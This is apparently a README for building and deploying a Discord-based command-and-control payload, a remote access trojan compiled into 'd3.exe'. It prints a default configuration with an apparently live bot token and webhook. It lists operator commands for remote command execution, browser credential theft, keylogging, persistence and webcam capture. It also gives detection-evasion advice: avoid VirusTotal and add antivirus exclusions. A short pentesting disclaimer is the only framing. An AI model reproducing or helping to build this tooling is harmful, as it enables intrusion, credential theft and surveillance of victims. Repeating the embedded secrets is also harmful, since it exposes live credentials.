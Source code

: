 # Discord C2 Payload - Build Instructions

## Available Build Scripts

### 🚀 `quick_build.bat` (RECOMMENDED)
**One-click build with your default configuration**

- ✅ Automatically installs UV if needed
- ✅ Sets up virtual environment
- ✅ Installs all dependencies
- ✅ Uses your pre-configured defaults:
  - Name: `d3`
  - Guild ID: `1375935187250057216`
  - Bot Token: `MTM37NTkzNTQ5OTU0OTU0MDM3Mg.G0N_48.d3bL65IMOciVH89Ehi4oLjwWbf9yMRTKpIv41g`
  - Channel ID: `1375935188265209989`
  - Webhook: `https://discord.com/api/webhooks/1375937047998501057/uyPon8TtX2_JLYwUvP_h0fZchDvpmfhsocI1OjPrHd4l-BOolP3XwFf4ymO4uguw5boA`
- ✅ Builds `d3.exe` in `dist/` folder
- ✅ Cleans up temporary files

**Usage:**
```cmd
quick_build.bat
```

### 🛠️ `build_complete.bat`
**Interactive build with full control**

- ✅ Complete environment setup
- ✅ Option to use defaults or enter custom values
- ✅ Detailed progress reporting
- ✅ Comprehensive error handling
- ✅ Security reminders and usage instructions

**Usage:**
```cmd
build_complete.bat
```

### 📝 `build_from_config.bat`
**Build using config.json file**

- ✅ Reads configuration from `config.json`
- ✅ Good for scripted/automated builds
- ✅ Easy to version control settings

**Usage:**
1. Edit `config.json`
2. Run `build_from_config.bat`

## Default Configuration

Your default values are pre-configured in all scripts:

```json
{
    "name": "d3",
    "guild_id": "1375935187250057216",
    "bot_token": "MTM37NTkzNTQ5OTU0OTU0MDM3Mg.G0N_48.d3bL65IMOciVH89Ehi4oLjwWbf9yMRTKpIv41g",
    "channel_id": "1375935188265209989",
    "webhook": "https://discord.com/api/webhooks/1375937047998501057/uyPon8TtX2_JLYwUvP_h0fZchDvpmfhsocI1OjPrHd4l-BOolP3XwFf4ymO4uguw5boA"
}
```

## Prerequisites

### Automatic Installation
All build scripts will automatically:
- Install UV package manager if missing
- Create virtual environment
- Install all Python dependencies
- Install PyInstaller for building

### Manual Prerequisites (if needed)
- **Python 3.9+**: [python.org](https://python.org/downloads/)
- **UV Package Manager**: [docs.astral.sh/uv](https://docs.astral.sh/uv/getting-started/installation/)

## Build Output

All scripts create:
- `dist/d3.exe` (or custom name) - Final executable
- Automatic cleanup of temporary files
- Build logs and status messages

## Security Notes

⚠️ **Important Reminders:**
- Use only for authorized penetration testing
- Do not upload to VirusTotal or similar services
- Test in isolated environments first
- Keep bot tokens secure
- Follow responsible disclosure practices

## Discord Bot Commands

Once `d3.exe` is running on target:

### Basic Commands
- `/interact <id>` - Interact with specific agent
- `!ls` - List all active agents
- `/cmd <command>` - Execute system commands
- `/screenshot` - Take screenshot
- `/terminate` - Terminate agent

### Advanced Commands
- `/persistent` - Enable persistence
- `/creds` - Extract browser credentials
- `/process` - List running processes
- `/keylog start <interval>` - Start keylogger
- `/keylog stop` - Stop keylogger

### Interactive Features
- Click buttons for quick actions
- File upload/download capabilities
- Real-time system information
- Webcam capture support

## Troubleshooting

### Common Issues
1. **"UV not found"** - Script will auto-install
2. **"Python not found"** - Install Python 3.9+
3. **"Build failed"** - Run as administrator
4. **"Antivirus blocking"** - Add exclusion for project folder

### Build Process
1. Environment setup (UV, venv, dependencies)
2. Configuration (defaults or custom)
3. Template processing (placeholder replacement)
4. PyInstaller compilation
5. Cleanup and verification

## File Structure After Build

```
├── dist/
│   └── d3.exe                 # Your payload executable
├── discord_payload.py         # Template (unchanged)
├── quick_build.bat           # Recommended build script
├── build_complete.bat        # Interactive build script
├── build_from_config.bat     # Config-based build script
├── config.json               # Your default configuration
├── pyproject.toml            # UV project file
└── libraries/                # Core functionality
```

## Quick Start Summary

**For immediate use with your defaults:**
```cmd
quick_build.bat
```

**Result:** `dist/d3.exe` ready to deploy!

This is the fastest way to get your Discord C2 payload built and ready for deployment on Windows Server 2019.
